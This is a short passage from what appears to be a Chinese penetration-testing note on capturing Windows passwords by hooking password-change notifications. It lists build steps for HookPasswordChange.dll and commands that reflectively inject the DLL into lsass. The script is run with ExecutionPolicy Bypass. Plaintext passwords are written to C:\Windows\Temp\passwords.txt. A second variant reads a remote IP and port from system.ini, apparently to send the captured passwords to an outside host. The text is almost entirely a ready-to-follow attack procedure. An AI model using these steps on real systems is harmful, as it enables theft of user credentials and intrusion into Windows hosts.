 	使用VS2015开发环境，MFC设置为在静态库中使用MFC
	编译工程，生成HookPasswordChange.dll
	https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
	在代码尾部添加如下代码：
	>Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
	并命名为HookPasswordChangeNotify.ps1
	上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll
	管理员权限执行
	>PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
	C:\Windows\Temp下可以找到passwords.txt
	&
	https://gitee.com/RichChigga/PasswordchangeNotify
	上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll 管理员权限执行：
	>PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
	在C:\Windows\System32 新建文件system.ini第一行是连接的ip 第二行是端口
![image](/assets/Pentest_Note/master/img/520.png)